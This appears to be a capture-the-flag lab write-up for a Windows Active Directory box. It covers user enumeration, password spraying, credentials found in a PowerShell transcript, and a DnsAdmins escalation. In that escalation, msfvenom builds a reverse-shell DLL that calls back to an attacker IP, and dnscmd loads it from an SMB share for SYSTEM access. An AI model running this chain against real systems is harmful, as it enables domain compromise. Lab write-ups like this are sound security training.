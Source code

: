 #rpcclient #querydispinfo #cme #password-spray #powershell-transcripts #user-descriptions #dnsadmins #dll-injection

>[!code]- Find open ports
>
>![Pasted image 20240831103518](Images/Pasted%20image%2020240831103518.png)
>![Pasted image 20240831103540](Images/Pasted%20image%2020240831103540.png)
#### Foothold

>[!code]- Enumerate users via **rpcclient** and find that **marko** user has a description which suggests their password is set to **Welcome123!**
>
>![Pasted image 20240831112156](Images/Pasted%20image%2020240831112156.png)

>[!fail]- marko:Welcome123! doesn't work

>[!code]- Find that **melanie** user has password **Welcome123!**
>
>![Pasted image 20240831113908](Images/Pasted%20image%2020240831113908.png)
#### Access

>[!success]- Obtain a shell as **melanie** and obtain user.txt
>
>![Pasted image 20240901061220](Images/Pasted%20image%2020240901061220.png)

>[!code]- Find a PowerShell transcript file containing a password for the user **ryan** (Serv3r4Admin4cc123!)
>Find the powershell transcript file:
>
>![Pasted image 20240901061002](Images/Pasted%20image%2020240901061002.png)
>
>Find the credentials:
>
>![Pasted image 20240901061415](Images/Pasted%20image%2020240901061415.png)

>[!success]- Obtain a shell as **ryan**
>
>![Pasted image 20240901061538](Images/Pasted%20image%2020240901061538.png)
#### Privilege Escalation

>[!code]- Find that ryan is a member of the **DnsAdmins** group
>
>![Pasted image 20240901064548](Images/Pasted%20image%2020240901064548.png)

>[!code]- Exploit DnsAdmins permissions by executing a malicious DLL upon DNS service startup
>###### Create the DLL
>```powershell
>msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=9001 -f dll > rev.dll
>```
>![Pasted image 20240901070858](Images/Pasted%20image%2020240901070858.png)
>
>###### Link the DLL to the DNS service
>```powershell
>dnscmd.exe /config /serverlevelplugindll \\10.10.14.13\share\rev.dll
>```
>![Pasted image 20240902081424](Images/Pasted%20image%2020240902081424.png)
>###### Make the DLL reachable
>```powershell
># On Kali (in folder containing rev.dll)
>impacket-smbserver share .
>
># Create a listener
>rlwrap nc -lvnp 9001
>```
>![Pasted image 20240902081452](Images/Pasted%20image%2020240902081452.png)
>###### Stop and start and DNS service
>```powershell
>sc.exe stop dns
>sc.exe start dns
>```
>![Pasted image 20240902081524](Images/Pasted%20image%2020240902081524.png)

>[!success]- Obtain shell as NT AUTHORITY\SYSTEM and obtain root.txt
>
>![Pasted image 20240902081613](Images/Pasted%20image%2020240902081613.png)




